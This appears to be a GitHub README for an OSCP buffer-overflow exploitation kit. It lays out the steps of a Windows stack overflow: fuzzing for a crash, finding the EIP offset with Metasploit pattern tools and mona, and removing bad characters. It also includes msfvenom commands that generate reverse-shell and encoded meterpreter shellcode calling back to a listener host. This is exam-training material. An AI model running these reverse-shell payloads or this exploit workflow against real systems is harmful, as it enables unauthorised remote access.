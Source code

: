 # BoF4OSCP

TODO: python3 setup.py IP PORT

It's gonna edit all the python scripts with your target IP and PORT

Then follow the next steps...

Make sure mona is installed:
```
!mona config -set workingfolder c:\mona
```

## 1st step : create a crash

```
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 3000

run python3 offset.py
```

check on mona what is the EIP address

take the EIP address (that looks mike EIP 386F...)

## 2nd step : pattern create

```
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 3000 -q 386F4337 (EIP ADDRESS)
[*] Exact match at offset 2003
```

## 3rd step : control EIP

edit eipOverwrite.py with the correct offset

```python3 eipOverwrite.py```

check on Immunity if EIP is well overwritten with 4B4B4B

## 4th step : finding badchars

```
python3 findingBadchars.py
```

right click on ESP, follow in dump

find the badchars using the following command

```
!mona compare -f c:\mona\bytearray.bin -a 005FF910(ESP ADDRESS)
```

## 5th step : fire up the reverse shell

We can also create an encoded one if some sort of protections are presents
```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.11.1 LPORT=4444 EXITFUNC=thread -f c -b '\x00\x0a\x0d' (mybadchars)
msfvenom -p windows/meterpreter/reverse_tcp -e shikata_ga_nai -i 3 -f c -b '\x00\x0a\x0d' (mybadchars)
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.11.1 LPORT=4444 -e shikata_ga_nai -i 3 -f c -b '\x00\x0a\x0d' (mybadchars)
```
edit finalBuff
setup a listener

```
python3 finalBuffer.py
```
